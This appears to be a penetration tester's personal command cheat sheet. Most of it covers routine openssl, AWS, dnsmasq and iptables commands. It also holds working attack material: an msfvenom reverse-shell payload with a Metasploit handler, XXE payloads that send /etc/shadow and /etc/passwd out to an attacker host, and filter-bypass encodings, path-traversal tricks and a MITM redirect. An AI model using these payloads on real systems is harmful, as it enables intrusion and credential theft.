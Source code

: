 # Reference

Things I do all the time but can never remember.

## openssl create pkcs12 from x509

Create with no password at all (not even empty string):

```
openssl pkcs12 -export -inkey cert.key -in cert.pem -certfile stacked-cachain.pem -keypbe NONE -certpbe NONE -passout pass: -out deviceCert.pfx
```

`-certfile` is optional, this is a CA chain

Create with empty string password and no CA chain:

```
openssl pkcs12 -export  -inkey privKey.pem -in cert.pem -passout pass: -out deviceCert.pfx
```


## query aws creds 

sts get-session-identity using key from from ENV vars
```
AWS_ACCESS_KEY_ID=<ID> AWS_SECRET_ACCESS_KEY=<KEY> aws sts get-caller-identity
```

with temp session token:
```
AWS_ACCESS_KEY_ID=<ID> AWS_SECRET_ACCESS_KEY=<KEY> AWS_SESSION_TOKEN=<SESS_TOK> aws sts get-caller-identity
```


## listen for tcp connections and print the output, continuously

```
while true; do ncat -w1 -i0.1 -nlp 1234 ; printf "\n" ; done
```


## Reset Microsoft Defender Application Guard Edge browser instance

```
wdagtool.exe cleanup
```

## curl flags

Dont resovlve paths, for path traversal e.g. `GET /a/../ HTTP/1.1`
```
curl --path-as-is http://localhost/a/../
```

Control the reqeuest URI for doing things like submitting a full URL e.g. `GET http://target/a HTTP/1.1`
```
curl --request-target "http://target/a" http://localhost
```

Pin a hostname to an IP address, mostly useful for when you want to send a specific SNI:

```
curl https://www.example.com --resolve www.example.com:443:127.0.0.1
```


## gnu parallel-ing gooder

```
taskset -c 0-10 parallel -j11 --resume --resume-failed --progress --joblog ~/Desktop/parallel-joblog --timeout 300 < todo.txt
```
saves progress to joblog so it can be control-C'd. taskset to leave a core free, timeout to kill long runningjobs (can also use % of average).
todo.txt has shell commands which will be run.



## metasploit rev shell (mips)

```
msfvenom -p linux/mipsbe/shell_reverse_tcp LHOST=192.168.50.1 LPORT=5555 -f elf > /tmp/shell2.elf


msfconsole
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set PAYLOAD linux/mipsbe/shell_reverse_tcp
PAYLOAD => linux/mipsbe/shell_reverse_tcp
msf5 exploit(multi/handler) > set LHOST 192.168.50.1
LHOST => 192.168.50.1
msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/handler) > exploit


```


## One line cert gen
```
openssl req -new -newkey rsa:2048 -days 365 -nodes -x509 -keyout server.key -out server.crt
```


## Dnsmasq-  DHCP only

```
dhcp-range=192.168.50.100,192.168.50.150,255.255.255.0,12h
dhcp-option=option:router,192.168.50.1
dhcp-option=option:dns-server,192.168.50.1
dhcp-authoritative
port=0
#remove the port line to run a dns server as well as dhcp
```


## XXE 
[See full list here](https://gist.github.com/staaldraad/01415b990939494879b4)

```
--------------------------------------------------------------
Vanilla, used to verify outbound xxe or blind xxe
--------------------------------------------------------------

<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "http://x.x.x.x:443/test.txt">
]>
<r>&sp;</r>

----------------------------------------------------------------
OoB (seems to work better against .NET)
----------------------------------------------------------------
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://x.x.x.x:443/ev.xml">
%sp;
%param1;
%exfil;
]>

## External dtd: ##

<!ENTITY % data SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://x.x.x.x:443/?%data;'>">

---------------------------------------------------------------
OoB extraction
---------------------------------------------------------------

<?xml version="1.0"?>
<!DOCTYPE r [
<!ENTITY % data3 SYSTEM "file:///etc/shadow">
<!ENTITY % sp SYSTEM "http://EvilHost:port/sp.dtd">
%sp;
%param3;
%exfil;
]>

## External dtd: ##
<!ENTITY % param3 "<!ENTITY &#x25; exfil SYSTEM 'ftp://Evilhost:port/%data3;'>">

-----------------------------------------------------------------------
OoB extra ERROR -- Java
-----------------------------------------------------------------------
<?xml version="1.0"?>
<!DOCTYPE r [
<!ENTITY % data3 SYSTEM "file:///etc/passwd">
<!ENTITY % sp SYSTEM "http://x.x.x.x:8080/ss5.dtd">
%sp;
%param3;
%exfil;
]>
<r></r>
## External dtd: ##

<!ENTITY % param1 '<!ENTITY &#x25; external SYSTEM "file:///nothere/%data3;">'> %param1; %external;


```

## Auditd

```
auditctl -l
auditctl -w /bin/ls -p x -k my_execs
ausearch -i -k my_execs
```
or

```
sudo forkstat -e exec
```


## Unicode
[Unicode Char transformations link](https://websec.github.io/unicode-security-guide/character-transformations/)

```
＇ fullwidth apos
＜ fullwidth lessthan
🎅 santa emoji


Target	NSF 1	NSF 2	NSF 3	Notes	
A	%C1%81	%E0%81%81	%F0%80%81%81	Latin A useful as a base test case.	
"	%C0%A2	%E0%80%A2	%F0%80%80%A2	Double quote	
'	%C0%A7	%E0%80%A7	%F0%80%80%A7	Single quote	
<	%C0%BC	%E0%80%BC	%F0%80%80%BC	Less-than sign	
>	%C0%BE	%E0%80%BE	%F0%80%80%BE	Greater-than sign	
.	%C0%AE	%E0%80%AE	%F0%80%80%AE	Full stop	
/	%C0%AF	%E0%80%AF	%F0%80%80%AF	Solidus	
\	%C1%9C	%E0%81%9C	%F0%80%81%9C	Reverse solidus

```

## Forwarding from one interface to the internet
```
# where eth2 is the device you want forwarded out, and eth0 is the internet attached adapter
iptables -A FORWARD -i eth2 -o eth0 -j ACCEPT
iptables -A FORWARD -i eth0 -o eth2 -m state --state ESTABLISHED,RELATED -j ACCEPT
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
sysctl -w net.ipv4.ip_forward=1
```

## MITM transparent to burp
```

#Where eth2 is the target device, and eth0 is the NAT out to internet / reachable proxy server
# dont forget to run dns, transparent mode in burp, listen on external interface, disable firewall, sysctl -w <forwarding on thing> etc

iptables --table nat --append PREROUTING --in-interface eth2 --protocol tcp --dport 443 --jump DNAT --to 192.168.200.164:8080
iptables --table nat --append PREROUTING --in-interface eth2 --protocol tcp --dport 80 --jump DNAT --to 192.168.200.164:8080
iptables -A FORWARD -m state --state NEW,ESTABLISHED,RELATED -j ACCEPT
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE 
```
